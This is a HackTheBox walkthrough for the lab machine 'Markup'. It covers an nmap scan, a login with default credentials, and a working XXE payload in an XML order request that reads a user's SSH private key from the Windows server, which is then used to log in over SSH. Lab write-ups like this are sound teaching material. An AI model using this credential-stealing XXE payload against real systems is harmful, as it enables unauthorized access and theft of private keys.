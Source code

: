 ```yaml
---
title: Markup - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - windows
  - xxe
---
```


# Markup -  A HTB machine


```bah
nmap -sC -A 10.129.95.192 -Pn 
```

Open ports: 22, 80 and 443.


In the browser, there is a login panel. Try typical credentials. admin and password work. 

Locate the form to order an item. Capture the request with burp:

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 108
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><order><quantity>2</quantity><item>Home Appliances</item><address>1</address></order>
```

Playing around with the request (for instance, nesting some xml) you can check that it's possible to escape the xml tags. This request contains a [xml external entity XEE vulnerability](webexploitation/xml-external-entity-xee).


From some responses like the one below (and also from nmap scanning) you know that server runs on a windows:

```
:  DOMDocument::loadXML(): Opening and ending tag mismatch: order line 1 and item in Entity, line: 1 in <b>C:\xampp\htdocs\process.php
```

Also, from source code you know there might be a user called daniel:

![source code](img/markup.png)


As part of a possible exploitation we could try to check if there are ssh private key saved in that user's folder.

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 182
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order><quantity>2</quantity><item>
&test;
</item><address>1</address></order>
```

The response will be id_rsa private key. [More about XEE attacks](webexploitation/xml-external-entity-xee).

Now, as port 22 was open:

```bash
ssh -i id_rsa daniel@10.129.95.192
```

user.txt is in Desktop.




